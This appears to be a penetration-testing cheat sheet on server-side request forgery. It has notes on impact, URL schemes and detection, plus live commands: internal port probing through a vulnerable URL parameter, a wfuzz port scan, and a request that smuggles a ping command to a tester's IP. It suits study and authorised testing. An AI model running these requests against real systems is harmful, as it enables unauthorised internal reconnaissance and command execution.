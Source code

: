 #### 1.1. About SSRF

- somewhat similar to File Inclusion, but attack vectors require that the target will internally process URLs/HTTP requests
- this attack will most likely have a higher impact on internal network / localhost
- helps with internal port scanning (where services might be firewalled - aka XSPA)
- helps with internal (sub)domain and IPs/hosts discovery
  - Docker default: `172.17.0.1-254`
  - `http://site.com/?url=https://172.17.0.105:1234` - where `1234` is an open HTTP port (expected error: `SSL23_GET_SERVER_HELLO`; to avoid time-out error)
  - first enumerate common ports on existing internal IP address
- could be limited to internal URLs only (`*.domain.com`)
- SSRF can be used to download remote malicious files and depending on server misconfiguration (`.php`) files can be executed
- can be used to leak information / administrative interfaces / internal services
- allows interaction with internal services that are not supposed to be exposed


#### 1.2. SSRF Bible

```
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM
```

#### 1.3. URL handlers

- `file://, http://, https://` (most common)
- `file:///proc/self/cwd/../config/` (Java)
- `gopher://, dict://, php://, jar://, tftp://`

More: `https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml`

#### 1.4. Detection

Manual detection:
```
$ http "http://$target/url.php?path=http://localhost:22" -b
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

$ $ http "$target/url.php?path=http://localhost:8080" -b
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title>
....
```


WFUZZ port scanning via SSRF:
```
# docker run --rm -it wfuzz -z range,0-65535 --hh 2 $target/url.php?path=http://localhost:FUZZ
```

SSRF with ping command:
```
$ http $target/test.asp?u=http%3a//localhost%3a80/cmd.aspx%3fxcmd%3dping+-n+1+10.10.14.13
$ sudo tcpdump -i tun0 icmp 2>/dev/null
06:30:29.301733 IP 10.10.10.57 > 10.10.14.13: ICMP echo request, id 1, seq 9, length 40
06:30:29.301754 IP 10.10.14.13 > 10.10.10.57: ICMP echo reply, id 1, seq 9, length 40
```
